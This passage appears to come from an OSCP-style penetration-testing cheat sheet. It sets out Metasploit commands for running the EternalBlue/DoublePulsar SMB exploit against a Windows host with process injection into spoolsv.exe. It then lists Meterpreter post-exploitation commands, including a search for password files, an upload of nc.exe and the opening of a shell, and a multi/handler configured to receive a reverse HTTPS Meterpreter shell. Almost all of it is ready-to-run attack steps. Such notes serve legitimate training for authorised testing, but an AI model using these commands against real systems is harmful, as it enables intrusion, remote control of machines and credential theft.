     3. Move the exploit to `/usr/share/metasploit-framework/modules/exploits/windows/smb` or `~/.msf4/modules/exploits/windows/smb`

    4. Start metasploit console
      

     -   I found that using spoolsv.exe as the PROCESSINJECT yielded results on OSCP boxes.
      
      ```
      use exploit/windows/smb/eternalblue_doublepulsar
      msf exploit(eternalblue_doublepulsar) > set RHOST 10.10.10.10
      RHOST => 10.10.10.10
      msf exploit(eternalblue_doublepulsar) > set PROCESSINJECT spoolsv.exe
      PROCESSINJECT => spoolsv.exe
      msf exploit(eternalblue_doublepulsar) > run
      ```


-   Experimenting with Meterpreter

    -   Get system information from Meterpreter Shell  
    
        `sysinfo`

    -   Get user id from Meterpreter Shell  
    
        `getuid`

    -   Search for a file  
    
        `search -f *pass*.txt`

    -   Upload a file  
    
        `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`

    -   Download a file  
    
        `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`

    -   Invoke a command shell from Meterpreter Shell  
    
        `shell`

    -   Exit the meterpreter shell  
    
        `exit`

-   Metasploit Exploit Multi Handler

    -   multi/handler to accept an incoming reverse\_https\_meterpreter
    
        ```
        payload  
        use exploit/multi/handler  
        set PAYLOAD windows/meterpreter/reverse_https  
        set LHOST $ip  
        set LPORT 443  
        exploit  
        [*] Started HTTPS reverse handler on https://$ip:443/
        ```
